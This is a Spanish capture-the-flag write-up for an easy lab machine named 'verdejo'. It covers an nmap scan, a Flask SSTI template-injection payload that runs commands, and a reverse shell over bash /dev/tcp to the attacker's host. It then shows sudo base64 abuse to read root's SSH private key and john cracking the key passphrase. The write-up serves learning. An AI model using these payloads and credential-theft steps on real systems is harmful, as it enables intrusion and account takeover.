# Máquina verdejo

---

Dificultad -> Fácil

---

Empezamos con nmap para ver puertos abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 dc:98:72:d5:05:7e:7a:c0:14:df:29:a1:0e:3d:05:ba (ECDSA)
|_  256 39:42:28:c9:c8:fa:05:de:89:e6:37:62:4d:8b:f3:63 (ED25519)
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
8089/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Dale duro bro
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos 3 puertos, un ssh y 2 paginas web, un apache y una montada en python.

En el apache no encuentro nada mas que una pagina por defecto, pero en la de python encuentro lo siguiente:



Una pagina que dice no haber nada interesante, pero se puede ver un input de texto y un boton, si le damos a "No hay nada enserio, no toques" 



Nos dice Hola mas el texto introduccido, a partir de esto, podemos ver que se puede introduccir html:



---


VIendo que se pueded introduccir html, probamos a ver si hay SSTI poniendo **`{{7 * 7}}`** y podemos ver que nos devuelve el resultado



Sabiendo que es vulnerable a SSTI y es un servidor flask, buscando un poco encuentro como hacer RCE.

Introducciendo el siguiente texto podemos ejecutar comandos `id` en este caso

```shag-0-1j9laq2iqag-1-1j9laq2iq
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```



Podemos ver que funciona perfectamente y nos dice que somos el usuario verde.

Ahora que podemos hacer RCE, le pongo una revshell en lugar del id mientras escucho desde mi maquina con **`nc -lvnp 4444`** 

```shell
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"').read()}}
```

Y estamos dentro como verde



Antes de nada, hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para operar facilmente y un **`sudo -l`** para ver binarios



Vemos que podemos ejecutar base64 como root y despues de mirar en [GTFOBins](https://gtfobins.github.io/) veo que no puedo escalar a root pero puedo leer archivos como root, asi que busco a ver si hay algún archivo que pueda leer.

No encuentro nada, y recordando que está el puerto 22 abierto y no hay mas usuarios, pruebo a leer la clave de ssh de root

```sh
sudo base64 /root/.ssh/id_rsa | base64 --decode
```



Consigo la clave y pruebo a entrar por ssh con ella



Al parecer necesito una contraseña, asi que con `ssh2john` y `john` intento crackearla

```shell
ssh2john sshkey > hash
```

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Vemos que nos saca la password `honda1` y con esta ya podriamos entrar por ssh como root


